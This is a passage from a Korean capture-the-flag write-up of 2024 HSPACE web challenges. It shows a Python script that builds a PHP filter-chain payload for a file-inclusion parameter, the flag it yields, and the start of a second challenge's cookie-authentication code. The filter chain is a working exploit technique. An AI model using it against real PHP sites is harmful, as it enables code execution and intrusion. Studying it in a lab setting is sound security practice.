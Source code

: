 ```python
P1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp"

php_filter += '+' * (8096 - len(php_filter))

print(php_filter)
```      
    
출력된 결과를 `index.php?p=`에 넣어주면 아래와 같이 `FLAG`를 얻을 수 있다.     

<img src="/assets/images/ctf/2024/hspace-web/Multiline PHP challenge/2.JPG"  width="700px">    

## FLAG     
hspace{5525f4bd51f0c29ac4f7f762813af852}     
      
<a id="sandbox"></a>         
               
## 6. sandbox     

전역 변수로 선언된 `var lastUid = 0` 변수는 유저가 한 명씩 생성될 때마다 값이 1씩 증가한다.   
                
`users.add({ username: "admin", password: hashPasswd(rand()), uid: lastUid++ })` 코드로 인해 새로운 유저가 부여받는 `lastUid` 은 1이상의 값을 갖는다.    
           
```javascript
app.use((req,res,next) => {
	req.userUid = -1
	req.userData = ""

	let data = req.cookies.data
	let uid = req.cookies.uid
	let passwd = req.cookies.passwd

	if(uid == undefined || passwd == undefined)
		return next()

	let found = false
	for(let e of users.entries())
		if(e[0].uid == uid && e[0].password == passwd)
			found = true

	if(found){
		req.userUid = uid
		req.userData = data
	}
```